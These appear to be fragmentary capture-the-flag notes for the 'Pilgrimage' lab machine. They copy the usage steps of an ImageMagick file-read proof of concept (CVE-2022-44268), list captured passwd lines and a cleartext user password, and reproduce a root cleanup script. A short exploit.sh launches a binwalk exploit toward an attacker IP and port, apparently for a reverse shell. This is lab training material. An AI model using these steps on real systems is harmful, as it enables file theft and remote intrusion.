 ```yaml
---
category: Uncategorized
tags: []
created: 2024-12-21

---
```

root:x:0:0:root:/root:/bin/bash
emily:x:1000:1000:emily,,,:/home/emily:/bin/bash



## User

https://github.com/duc-nt/CVE-2022-44268-ImageMagick-Arbitrary-File-Read-PoC

### Usage:

#### [](https://github.com/duc-nt/CVE-2022-44268-ImageMagick-Arbitrary-File-Read-PoC#installing-dependencies)Installing dependencies:

`1. $ apt-get install pngcrush imagemagick exiftool exiv2 -y`

#### [](https://github.com/duc-nt/CVE-2022-44268-ImageMagick-Arbitrary-File-Read-PoC#change-the-filename-you-want-to-read-below)Change the filename you want to read below:

`2. $ pngcrush -text a "profile" "/etc/hosts" vjp.png`

#### [](https://github.com/duc-nt/CVE-2022-44268-ImageMagick-Arbitrary-File-Read-PoC#confirm-everything-worked-perfectly)Confirm everything worked perfectly

`3. $ exiv2 -pS pngout.png`

#### [](https://github.com/duc-nt/CVE-2022-44268-ImageMagick-Arbitrary-File-Read-PoC#trigger-the-poc-via-convert-or-upload-image-to-the-vulnerable-service)Trigger the PoC via convert or upload image to the vulnerable service:

`4. $ convert pngout.png gopro.png`

#### [](https://github.com/duc-nt/CVE-2022-44268-ImageMagick-Arbitrary-File-Read-PoC#view-content-of-file-was-read)View content of file was read:

`5. $ identify -verbose gopro.png`

#### [](https://github.com/duc-nt/CVE-2022-44268-ImageMagick-Arbitrary-File-Read-PoC#decrypt-the-content)Decrypt the content:

`6. $ python3 -c 'print(bytes.fromhex("23202f6574632f686f7374730a3132372e302e302e31096c6f63616c686f73740a0a232054686520666f6c6c6f77696e67206c696e65732061726520646573697261626c6520666f7220495076362063617061626c6520686f7374730a3a3a3109096c6f63616c686f7374206970362d6c6f63616c686f7374206970362d6c6f6f706261636b0a666630323a3a3109096970362d616c6c6e6f6465730a666630323a3a3209096970362d616c6c726f75746572730a6475636e740a").decode("utf-8"))'`


 $db = new PDO('sqlite:/var/db/pilgrimage');

testpassword

abigchonkyboi123

emily:abigchonkyboi123


2023/06/27 06:56:55 CMD: UID=0    PID=721    | /bin/bash /usr/sbin/malwarescan.sh 
2023/06/27 06:56:55 CMD: UID=0    PID=720    | /usr/bin/inotifywait -m -e create /var/www/pilgrimage.htb/shrunk/ 

#!/bin/bash

blacklist=("Executable script" "Microsoft executable")

/usr/bin/inotifywait -m -e create /var/www/pilgrimage.htb/shrunk/ | while read FILE; do
        filename="/var/www/pilgrimage.htb/shrunk/$(/usr/bin/echo "$FILE" | /usr/bin/tail -n 1 | /usr/bin/sed -n -e 's/^.*CREATE //p')"
        binout="$(/usr/local/bin/binwalk -e "$filename")"
        for banned in "${blacklist[@]}"; do
                if [[ "$binout" == *"$banned"* ]]; then
                        /usr/bin/rm "$filename"
                        break
                fi
        done
done





### PWN SCRIPTS


###  exploit.sh

#!/bin/bash                                                                                                         

while true; do                                                                                                      
file=$(ls /var/www/pilgrimage.htb/tmp/)                                                                             

        if [ -z "$file" ]; then                                                                                     
                echo "Nada..."                                                                                      

        else                                                                                                        
                break                                                                                               
        fi                                                                                    

done                                                                                                                

ruta="/var/www/pilgrimage.htb/tmp/$file"                                                                            
echo -e "\n Se encontró un archivo! $ruta\n"                                                                        

cp $ruta .                                                                                                          

echo "[*] Se va a ejecutar el script de python"                                                                     

python3 exploit.py /dev/shm/$file 10.10.14.126 1234

## exploit.py
https://www.exploit-db.com/exploits/51249
